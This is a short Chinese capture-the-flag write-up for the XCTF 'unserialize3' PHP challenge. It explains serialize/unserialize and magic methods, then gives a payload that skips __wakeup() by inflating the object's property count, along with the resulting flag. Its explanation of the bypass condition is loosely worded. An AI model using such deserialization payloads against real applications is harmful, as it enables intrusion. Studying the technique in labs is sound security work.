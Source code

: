 知识点：

1、serialize()函数：用于序列化对象或数组，并返回一个字符串。序列化对象后，可以很方便的将它传递给其他需要它的地方，且其类型和结构不会改变。

2、unserialize()函数：用于将通过serialize()函数序列化后的对象或数组进行反序列化，并返回原始的对象结构。

3、魔术方法：PHP 将所有以 __（两个下划线）开头的类方法保留为魔术方法。所以在定义类方法时，除了上述魔术方法，建议不要以 __ 为前缀。

4、serialize()和unserialize()函数对魔术方法的处理：serialize()函数会检查类中是否存在一个魔术方法__sleep()。如果存在，该方法会先被调用，然后才执行序列化操作，此功能可以用于清理对象。
unserialize()函数会检查类中是否存在一个魔术方法__wakeup()，如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。

5、\__wakeup()执行漏洞：一个字符串或对象被序列化后，如果其属性被修改，则不会执行 \__wakeup()函数，这也是一个绕过点。

对于unserialize3这个题，里面有__wakeup()函数：


 结合题目和题中代码，就是让我们运用，__wakeup()函数的漏洞拿flag的。

创建一个xctf类并对其进行序列化：

```php
<?php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
}
$c = new xctf();
print(serialize($c));
?>
```

得到结果：O:4:"xctf":1:{s:4:"flag";s:3:"111";}

大括号前面的1便是属性变量的个数，只需对其进行更改便可以绕过__wakeup()，使exit函数不被执行。

传参?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}，拿到flag：xctf{63a8055fd385db30f57d32b44225c42b}